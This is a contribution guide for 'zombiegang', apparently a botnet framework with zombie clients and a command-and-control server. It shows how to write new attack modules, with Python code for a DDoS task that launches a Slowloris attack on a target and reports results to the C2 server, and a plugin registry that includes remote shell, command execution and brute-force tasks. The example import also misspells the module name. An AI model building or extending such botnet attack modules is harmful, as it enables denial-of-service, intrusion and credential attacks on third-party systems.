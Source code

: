 [//]: # (https://github.com/r3nt0n/zombiegang)

# Contribution guidelines

First off, thanks for taking the time to contribute. This guide is ordered from least to most difficult:

1. Starts by explaining **[how to write and add new modules](#how-to-create-new-tools-and-attacks)** in the **clients** (zombie and master), which is enough to create new **tools and attacks**.  
  

2. Next section includes a list of **[best practices](#best-practices)** that will help you better understand how to build and incorporate these modules efficiently.  
  

3. Finally, if you want to go deeper, the last section will help you **[understand the API and database structure](#understanding-the-api-and-db-structure)** to start **contributing to the CC server**, which is the main component.


## How to create new tools and attacks

To follow this tutorial, we are going to take `dos` module as example: 

### zombie side
`zombie-client` includes the class `Task` inside [`🔗app/models/task.py`](https://github.com/r3nt0n/zombiegang/blob/master/zombie-client/app/models/task.py), this is the base class that make all dirty work. It **creates two threads**:
    
+ one thread to **keep checking manual stop signals** from cc-server
+ second thread to the **main execution of the task**:
  + **reports that has read the task** (updates `Missions.read_confirm` field to `true`)  
  + **reports that task is starting** (updates `Missions.running` field to `true`)
  + (here is where the ***custom code*** is executed)
  + **reports that the task has been completed and updates its result and execution time** (updates `Missions.result` and `Missions.exec_at` fields to `Task.result` and `Task.exec_at`)
  + **logging** all this processes in case debug is required

Inherits from this parent class will let you focus on the core of the attack.

First thing we need to do is create [`🔗app/models/attacks/dos.py`](https://github.com/r3nt0n/zombiegang/blob/master/zombie-client/app/models/attacks/dos.py) and import `Task`:


```python
from app.models import Task
```

We are going to create a child class. The `__init__` method takes `task_data` as argument, so you can access all task fields inside your code. Let's initilize the attributes you need with this info to use later.

```python
class DDosAttack(Task):
    def __init__(self, task_data):
        super().__init__(task_data)
        self.attack_type = self.task_content['attack_type']
        self.target = self.task_content['target']
        self.port = int(self.task_content['port'])
```

This are the other two methods you need to set: 

```python
    def start(self):
        # here comes the sugar
        from app.components import logger
        logger.log('starting ddos module...', 'OTHER')

        if self.attack_type == 'slowloris':
            logger.log('starting ddos/slowloris module...', 'OTHER')
            attack = Slowloris(self.target, port=self.port, to_stop_at=self.to_stop_at, enable_https=self.https,
                               n_sockets=1000)
            attack.run()
            logger.log('slowloris executed', 'SUCCESS')
            self.result = attack.report
        Task.start(self)
        # ...

    def run(self):
        return Task.run(self)
```
  
The logic of our task should be included inside `start()`. In the example, it checks for a specific subtype and load a specific module depending on it, then run and take the result from a specific field of the task.  

`run()` method returns the parent method (`Task.run()`), to wrap all our custom execution with pre and post routines common to all tasks (report starting, report result, etc). We don't need to declare anything else in this method.

To complete the code of the example, we are going to add another import:

```python
from app.models import Task
from app.modules.attacks import Slowlowris
```

In this example we are using the module [`🔗app/modules/attacks/slowloris.py`](https://github.com/r3nt0n/zombiegang/blob/master/zombie-client/app/modules/attacks/slowloris.py), which encapsulates the attack logic that address one of DDoS attacks subtypes. **For more information on models and modules, visit the good practices section**.

Once we have created our new model or custom task we need to reference it on two files:

[`🔗app/models/attacks/__init__.py`](https://github.com/r3nt0n/zombiegang/blob/master/zombie-client/app/models/attacks/__init__.py)
```python
from .dos import DDosAttack
``` 
 
[`🔗app/components/plugin_manager.py`](https://github.com/r3nt0n/zombiegang/blob/master/zombie-client/app/components/plugin_manager.py)  
```python
class PluginManager:
    def __init__(self):
        self.plugins = {
            'cmd': tools.Command,
            'rsh': tools.RemoteShellSession,
            'dos': attacks.DDosAttack,
            'brt': attacks.BruteForceAttack
            # include new customized tasks here
            
        }

    def get_plugin(self, task_type):
        Plugin = None
        for plugin in self.plugins:
            if task_type == plugin:
                Plugin = self.plugins[plugin]
                break
        return Plugin
```

Now, when zombie receive a new task and the field `task_type` is `dos`, he runs the code we have just implemented with config provided in `task_content` as parameters and reports cc back on every step.

### master-side

Still under construction [...]


## Best practices

+ Write isolate `modules` which execute individual actions (e.g.: perform an slowloris attack)
+ Think in `models` like a wrapper to converts it into a customized task, within which you can use one or more of these `modules` (e.g.: ddos attacks model)
+ Write this modules reusing as much code as possible, there are available "low-level  modules" like `http_client.py`,`ssh_client.py` or `crud.py` that save you from having to code the same routines over and over again
+ If you are writing a module and identify some routine that could be useful in other cases, try to write also a low-level module (e.g.: you are writing a ftp bruteforcer, first you write the ftp client, which is the "low-level module", and use it to create the ftp bruteforcer module. To complete the example, you would write a model using this module to create a new customized task)

Still under construction [...]

## Understanding the API and DB structure

Still under construction [...]


